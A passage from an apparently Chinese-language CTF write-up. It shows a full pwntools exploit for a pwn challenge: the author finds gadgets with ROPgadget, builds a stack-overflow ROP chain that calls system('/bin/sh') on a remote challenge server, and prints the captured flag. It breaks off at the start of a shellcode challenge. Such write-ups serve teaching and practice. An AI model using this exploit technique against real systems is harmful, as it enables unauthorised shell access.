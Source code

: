    用ida打开，发现有 `result()` 执行了 `system("echo \"I want to say I love you.\"")`，但并不是`/bin/sh`

   利用ropgadget查看是否存在/bin/sh

   ``` 
   ROPgadget --binary last --string '/bin/sh'
   Strings information
   ============================================================
   0x0000000000404050 : /bin/sh
   ```

   确实存在，且ida内找到_system的地址为：

   ``` 
   .plt.sec:0000000000401090 ; int system(const char *command)
   ```

   因为是64位，函数的参数传递使用寄存器，第一个参数在rdi里面，所以先用 pop rdi ret 把 `/bin/sh` 字符串的地址放在rdi然后调用system函数

   同样用ropgadget查看pop rdi和ret的地址

   ``` 
   # ROPgadget --binary last | grep "pop rdi"  
   0x0000000000401241 : pop rdi ; ret
   
   # ROPgadget --binary last | grep "ret"    
   0x000000000040101a : ret
   ```

2. exp，直接返回执行system函数，获取到shell

   ``` python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'last'
   #sh = process('./last')
   sh = remote('210.44.150.15', 41158)
   elf = ELF('./last')
   system_plt = elf.plt['system']
   pop_rdi = 0x401241
   ret = 0x40101a
   binsh_addr=0x404050
   offset = 0x10 + 8
   payload = b'a' * offset + p64(pop_rdi) + p64(binsh_addr) + p64(ret) + p64(system_plt)
   sh.recv()
   sh.sendline(payload)
   sh.interactive()
   ```

![](https://s2.loli.net/2024/11/14/Vwa7h2N3xbpfl8v.png)

``` 
SSHCTF{lf_yOU_TRuly_L0Ve_heR_137_HER_Know_74aa73aa8cea}
```

### babyshellcode

1. checksec，没有保护。本地执行babyshellcode，发现需要输入两次，第一次输入shellcode，第二次提示'opportunity to get shell access'，大概是栈溢出返回到shellcode地址
